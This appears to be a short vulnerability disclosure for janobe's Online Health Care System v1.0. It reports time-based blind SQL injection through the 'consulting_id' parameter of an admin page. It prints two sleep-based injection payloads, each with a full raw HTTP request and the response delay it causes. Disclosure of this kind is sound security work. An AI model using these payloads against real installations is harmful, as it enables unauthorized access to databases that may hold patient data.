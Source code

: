 # Online Health Care System v1.0 by janobe has SQL injection

BUG_Author: Peisen Wang

vendors:https://www.sourcecodester.com/php/14526/online-health-care-system-php-full-source-code-2020.html

Vulnerability File: /healthcare/Admin/consulting_detail.php

Parameter "consulting_id" (GET), exists delayed injection vulnerability

Payload1: /healthcare/Admin/consulting_detail.php?consulting_id=(select*from(select(sleep(10)))a)

```
GET /healthcare/Admin/consulting_detail.php?consulting_id=(select*from(select(sleep(10)))a) HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

select(sleep(10)), The server response time is 10 seconds

![image](https://github.com/dreamwonly/pic/blob/main/ten.png)

Payload2: /healthcare/Admin/consulting_detail.php?consulting_id=(select*from(select(sleep(20)))a)

```
GET /healthcare/Admin/consulting_detail.php?consulting_id=(select*from(select(sleep(20)))a) HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

select(sleep(20)), The server response time is 20 seconds

![image](https://github.com/dreamwonly/pic/blob/main/twenty.png)

